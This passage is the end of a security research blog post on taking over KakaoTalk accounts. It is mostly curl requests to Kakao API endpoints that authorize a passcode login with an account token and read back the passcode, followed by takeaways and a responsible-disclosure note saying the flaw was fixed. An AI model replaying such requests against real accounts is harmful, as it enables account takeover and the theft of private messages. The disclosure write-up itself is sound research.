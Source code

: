 ```bash
curl -i -s -k -X $'POST' \
    -H $'Host: talk-pilsner.kakao.com' -H $'Authorization: 64f03846070b4a9ea8d8798ce14220ce00000017017793161400011gzCIqV_7kN-deea3b5dc9cddb9d8345d95438207fc0981c2de80188082d9f6a8849db8ea92e' -H $'Talk-Agent: android/10.4.3' -H $'Talk-Language: en' -H $'Content-Type: application/json; charset=UTF-8' -H $'Content-Length: 19' -H $'Accept-Encoding: gzip, deflate, br' -H $'User-Agent: okhttp/4.10.0' \
    --data-binary $'{\"passcode\":\"8825\"}' \
    $'https://talk-pilsner.kakao.com/talk-public/account/passcodeLogin/authorize'
```

Example response:

```json
{"device":{"name":"foo"},"status":0}
```

In case the pin is sent to the KakaoTalk mobile app use this curl query:

```bash
curl -i -s -k -X $'GET' \
    -H $'Host: katalk.kakao.com' -H $'Accept-Language: en' -H $'User-Agent: KT/10.4.3 An/11 en' -H $'Authorization: 64f03846070b4a9ea8d8798ce14220ce00000017017793161400011gzCIqV_7kN-deea3b5dc9cddb9d8345d95438207fc0981c2de80188082d9f6a8849db8ea92e' -H $'A: android/10.4.3/en' -H $'Accept-Encoding: json, deflate, br' -H $'Connection: close' \
    $'https://katalk.kakao.com/android/sub_device/settings/info.json'
```

Example response:

```json
{"status":0,"isVerified":true,"passcode":"8825"}
```

And we're in! Profit 🥳🥳🥳

{{< rawhtml >}} 
<video width=100% controls>
    <source src="https://github.com/stulle123/kakaotalk_analysis/assets/14765446/7fd439c5-b96b-49d9-b8b5-cd9be2a51fe9" type="video/mp4">
</video>
{{< /rawhtml >}}

## Takeaways

1) There are still popular chat apps that don't require a very complex exploit chain to steal users' messages.
2) If app developers make a couple of simple mistakes, Android's strong security model and message encryption won't help.
3) Asian chat apps are still underrepresented in the security research community. I hope this blog post will encourage fellow researchers to dig into those apps.

## Responsible Disclosure

We reported this vulnerability in December 2023 via [Kakao's Bug Bounty Program](https://bugbounty.kakao.com/). However, we didn't receive any reward as only Koreans are eligible to receive a bounty 🤯 The issues were fixed (see [correspondence](https://github.com/stulle123/kakaotalk_analysis/tree/main/report)).